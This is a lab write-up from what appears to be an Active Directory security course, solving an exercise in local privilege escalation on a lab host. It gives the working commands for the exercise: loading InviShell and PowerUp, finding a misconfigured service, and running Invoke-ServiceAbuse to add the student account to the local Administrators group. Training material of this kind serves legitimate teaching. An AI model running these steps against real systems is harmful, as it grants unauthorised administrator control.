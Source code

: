# Privilege Escalation

## Local Privilege Escalation via Service Abuse

### Lab: Hands-On #05.1

#### Tasks

- Exploit a service on `student51` and elevate privileges to local administrator

#### Tools

- `InviShell`
- `PowerUp` (alternative: `AccessChk` + `sc`)

#### Solution

- Exploit a service on `student51` and elevate privileges to local administrator

We can use any tool from PowerUp, beRoot, Invoke-Privesc or AccessChk from the SysInternals suite to look for service related issues.

**PowerUp**

```
C:\AD\Tools> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\AD\Tools> Import-Module C:\AD\Tools\PowerUp.ps1

PS C:\AD\Tools> Invoke-AllChecks

[SNIP]

[*] Checking service permissions...
ServiceName   : ALG
Path          : C:\WINDOWS\System32\alg.exe
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'ALG'
CanRestart    : True

[SNIP]

PS C:\AD\Tools> Invoke-ServiceAbuse -Name ALG -UserName us\studentuser51 -Verbose

[SNIP]

ServiceAbused Command
------------- -------
ALG           net localgroup Administrators us\studentuser51 /add
```


[us-mgmt]: PS C:\Users\studentuser51\Documents> $env:username
[us-mgmt]: PS C:\Users\TEMP\Documents> $env:computername